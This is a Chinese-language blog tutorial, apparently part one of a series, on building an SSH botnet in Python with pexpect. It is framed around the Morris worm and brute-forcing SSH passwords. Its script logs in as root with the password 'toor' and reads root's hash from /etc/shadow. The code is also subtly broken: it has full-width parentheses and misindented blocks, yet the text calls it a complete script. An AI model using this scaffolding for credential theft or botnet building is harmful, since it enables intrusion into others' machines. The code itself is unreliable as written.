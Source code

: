 # 原创
：  【Python脚本进阶】2.2、构建一个SSH僵尸网络（上）：SSH交互脚本

# 【Python脚本进阶】2.2、构建一个SSH僵尸网络（上）：SSH交互脚本

**目录**

[一、简介](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B)

[概述：](#%E6%A6%82%E8%BF%B0%EF%BC%9A)

[漏洞利用方式](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F)

[二、用Pexpect与SSH交互](#%E4%BA%8C%E3%80%81%E7%94%A8Pexpect%E4%B8%8ESSH%E4%BA%A4%E4%BA%92)

[简介：](#%E7%AE%80%E4%BB%8B%EF%BC%9A)

[环境：](#%E7%8E%AF%E5%A2%83%EF%BC%9A)

[函数：](#%E5%87%BD%E6%95%B0%EF%BC%9A)

[三、实现](#%E4%B8%89%E3%80%81%E5%AE%9E%E7%8E%B0)

[第一步：](#%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A)

[第二步：](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A)

[整合：](#%E6%95%B4%E5%90%88%EF%BC%9A)

---


## 一、简介

> 
<h3>概述：</h3>
第一步：创建一个用来搜寻目标的端口扫描程序
现在来到第二步了
第二步：开始利用这些服务中的漏洞


> 
<h3>漏洞利用方式</h3>
Morris蠕虫有三种攻击方式， 其中之一就是用常见的用户名和密码尝试登录RSH服务(remote shell)。RSH是1988年问世， 它为系统管理员提供远程连接一台机器， 并能在主机上运行一系列终端命令对它进行管理的方法
<hr/>
后来在RSH中增加一个公钥加密算法， 以保护其经过网络传递的数据， 这就是SSHC Secure Shell) 协议， 最终SSH 取代了RSH。不过， 对千防范用常见用户名和密码尝试暴力登录的攻击方法， 这并不能起到多大的作用。SSH 蠕虫已经被证明是非常成功的和常见的攻击方式
<hr/>
远程IP 地址正试图暴力生成可能的密码后， IDS 阻断该IP 继续尝试登录SSH 的企图


---


---


---


## 二、用Pexpect与SSH交互

> 
<h3>简介：</h3>
实现我们自己的能暴力破解特定目标用户名／密码的SSH 蠕虫。因为SSH客户端需要用户与之进行交互， 我们的脚本必须在发送进一步的输入命令之前等待并“ 理解＂ 屏幕输出的意义
<hr/>
考虑以下情形：连接架在IP 地址127.0.0.1上SSH 的机器，应用程序首先会要求我们确认RSA 密钥指纹。必须回答“ 是＂ ， 然后才能继续。在给我们一个命令提示符之前， 应用程序要求我们输入密码。最后，还要执行uname-v 命令来确定目标机器上系统内核的版本
<hr/>

 如果是拒绝连接的话，可能是ssh没启动
输入
sudo /etc/init.d/ssh start



---


> 
<h3>环境：</h3>
为了能自动完成上述控制台交互过程， 需要使用一个第三方Python 模块一Pexpect[Pexpect version 4.8 — Pexpect 4.8 documentation<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://pexpect.readthedocs.io/en/latest/](https://pexpect.readthedocs.io/en/latest/)Pexpect 能够实现与程序交互、等待预期的屏幕输出， 并据此做出不同的响应。这使得它成为自动暴力破解SSH 用户口令程序的首选工具。



> 
<h3>函数：</h3>
prompt 是提示的意思. 在 Python 语言中，是一个用户自定义的字符串变量名，目的和作用就是把变量 prompt 的内容作为提示信息
pexpect. spawn收集交互期间生成的返回值


---


---


## 三、实现

> 
<h3>第一步：</h3>
检测connect(）函数。该函数接收的参数包括一个用户名、主机名和密码， 返回的是以此进行的SSH 连接的结果。
<hr/>
利用pexpect 库， 程序等待一个“可以预计到的“ 输出。可能会出现三种可能的输出： 超时、表示主机已使用一个新的公钥的消息和要求输入密码的提示。如果出现超时， 那么session.expect()返回0。用if 语句会识别出这一情况，打印一个错误消息后返回。如果child.expect()方法捕获了ssh_newkey 消息， 它会返回一个1， 这会使函数发送一个“ yes" 消息， 以接收新的密钥。之后， 函数等待密码提示，然后发送SSH 密码
<pre><code>import pexpect
PROMPT = ['#', '&gt;&gt;&gt;', '&gt;', '\$']
def send_command(child, cmd):
    child.sendline(cmd)
    child.expect(PROMPT)
    print(child.before)


def connect(user, host, password):
    ssh_newkey = 'Are you sure you want to continue connecting'
    connStr = 'ssh ' + user + '@' + host
    child = pexpect.spawn(connStr）
    ret = child.expect([pexpect.TIMEOUT, ssh_newkey,'[P|p]assword：'])
    if ret == 0:
        print('[-] Error Connecting')
        return
    if ret == 1:
    child.sendline('yes')
    ret = child.expect([pexpect.TIMEOUT, '[P|p] assword:'])
        if ret == 0:
            print('[-] Error Connecting')
            return
        child.sendline( password )
        child.expect( PROMPT )
        return child</code></pre>


> 
<h3>第二步：</h3>
通过验证，就可以使用一个单独的command()函数在SSH 会话中发送命令。command(）函数需要接收的参数是一个SSH 会话和命令字符串。然后，它向会话发送命令字符串， 并等待命令提示符再次出现。在获得命令提示符后，该函数把从SSH 会话那里得到的结果打印出来

<pre><code>import pexpect
PROMPT = ['#', '&gt;&gt;&gt;', '&gt;', '\$']
def send_command(child, cmd):
    child.sendline(cmd)
    child.expect(PROMPT)
    print(child.before)</code></pre>


> 
<h3>整合：</h3>
完整的模拟人交互行为的连接和控制SSH 会话的脚本
<pre><code>import pexpect
PROMPT = ['#', '&gt;&gt;&gt;', '&gt;', '\$']
def send_command(child, cmd):
    child.sendline(cmd)
    child.expect(PROMPT)
    print(child.before)


def connect(user, host, password):
    ssh_newkey = 'Are you sure you want to continue connecting'
    connStr = 'ssh ' + user + '@' + host
    child = pexpect.spawn(connStr）
    ret = child.expect([pexpect.TIMEOUT, ssh_newkey,'[P|p]assword：'])
    if ret == 0:
        print('[-] Error Connecting')
        return
    if ret == 1:
    child.sendline('yes')
    ret = child.expect([pexpect.TIMEOUT, '[P|p] assword:'])
        if ret == 0:
            print('[-] Error Connecting')
            return
        child.sendline( password )
        child.expect( PROMPT )
        return child


def main():
    host ='localhost'
    user ='root'
    password ='toor'
    child = connect(user, host, password)
    send_command(child, 'cat /etc/shadow | grep root')


if __name__ == '__main__':
    main()</code></pre>

